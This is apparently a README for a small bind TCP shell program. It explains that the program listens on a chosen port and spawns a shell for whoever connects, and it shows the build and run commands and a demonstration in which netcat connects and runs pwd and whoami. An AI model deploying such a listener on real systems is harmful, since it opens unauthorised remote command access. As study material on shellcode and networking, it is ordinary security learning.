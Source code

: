 # Bind TCP Shell
The program will listen on a command-line argument TCP port for inbound connections. <br>
When it receives a connection, it will make a execve syscall to get a shell on the remote machine and redirect to descriptors of the programm to our socket <br>

# How to execute
make <br>
./bind_shell -p 'tcp_port' -q 'queue_length' <br>
Where tcp_port is the number of the TCP port in which we want to receive connections, and queue_length is the queue_length of the incoming connections.

# Example on remote machine
./server -p 3000 -q 5 <br>
[*] Waiting for incoming connection on 0.0.0.0 at port 3000 <br>
Connection received from 192.168.15.18 in port 44508 managed by the process 22109 <br>

# Example on local machine 
nc -v 192.168.15.18 3000 <br>
Connection to 192.168.15.18 3000 port [tcp/*] succeeded! <br>
pwd<br>
/home/h4z4rd/bind_tcp_shell <br>
whoami<br>
h4z4rd<br>
